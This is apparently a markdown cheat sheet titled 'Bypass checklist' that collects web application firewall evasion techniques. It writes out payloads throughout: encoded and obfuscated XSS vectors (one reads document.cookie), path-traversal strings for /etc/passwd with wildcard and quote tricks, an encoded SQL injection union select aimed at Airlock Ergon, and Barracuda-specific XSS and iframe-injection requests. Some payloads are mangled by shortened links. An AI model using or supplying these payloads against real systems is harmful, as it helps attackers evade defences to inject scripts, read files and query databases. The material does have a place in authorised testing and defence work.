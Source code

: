 



# Bypass checklist

## Generic checklist


- [ ]  Base64 encoding our payload 
```
(/?q=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=_)
```

- [ ]  ASPX removes % not followed by two hex characters 
```
(https://lnkd.in/eBsjhAqr /etc/paswd)
```


- [ ]  We can use spaces to fool a WAF 
```
(<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">)
```


- [ ]  Backslashes in filtered words 
```
(https://lnkd.in/eCXt9J_S /etc/pa\swd)
```

- [ ]  Quotes and * https://lnkd.in/eCXt9J_S /etc/pa*swd
https://lnkd.in/eCXt9J_S /etc/pa**swd
https://lnkd.in/eCXt9J_S /etc/pa's'wd
https://lnkd.in/eCXt9J_S /etc/pa"s"wd


- [ ]  Wildcards (https://lnkd.in/eCXt9J_S /e??/p????)

- [ ]  Replace spaces with / (<svg/onload>)

- [ ]  Custom tags ([https://lnkd.in/eC5Zwwmn<CUSTOM+id%3Dx+onfocus%3Dalert(document.cookie) tabindex=1>#x](https://lnkd.in/exBUDGNr) )


- [ ]  Using different language chars
– e.g. ē instead of e

## Airlock Ergon

```php
%C0%80'+union+select+col1,col2,col3+from+table+--+
```

Every space here is replaced by a + and we have the %C0 and %80 url encoded values at the beginning of our attack http://vector.by [@Sec Consult](https://lnkd.in/eHqUMyDa)

## Barracuda

```php
<body style="height:1000px" onwheel="alert(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
```

A smart bypass making use of several tricks. The first line will use the onwheel event handler which is not filtered in Barracuda. We also have a very smart use of the url encoded characters on the third line. Great discoveries by [@WAFNinja](https://waf.ninja/)

```php
GET /cgi-mod/index.cgi?&primary_tab=ADVANCED&secondary_tab=test_backup_server&content_only=1&&&backup_port=21&&backup_username=%3E%22%3Ciframe%20src%3Dhttp%3A//https://lnkd.in/eCUn9ndT
Host: http://favoritewaf.com
User-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)
```





==We can see several smart tricks being used here by [@Global-Evolution](https://www.exploit-db.com/?author=2016) to achieve HTMLi==

```php
<a href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At:open()>clickhere
```

And finally this amazing hacker makes smart use of the urlencoded value %0A which they place between every character of javascript. %0A translates to a linefeed. 

And many more over at [https://github.com/0xInfection/Awesome-WAF#known-bypasses](https://github.com/0xInfection/Awesome-WAF#known-bypasses)